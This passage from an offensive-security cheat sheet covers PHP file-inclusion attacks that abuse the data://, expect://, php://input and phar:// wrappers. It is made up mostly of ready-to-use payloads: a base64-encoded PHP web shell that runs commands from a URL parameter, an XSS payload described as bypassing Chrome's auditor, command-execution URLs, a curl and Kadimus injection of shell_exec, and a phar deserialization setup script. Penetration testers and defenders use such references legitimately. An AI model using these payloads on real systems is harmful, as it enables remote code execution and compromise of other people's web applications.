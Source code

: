 ### Wrapper data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked
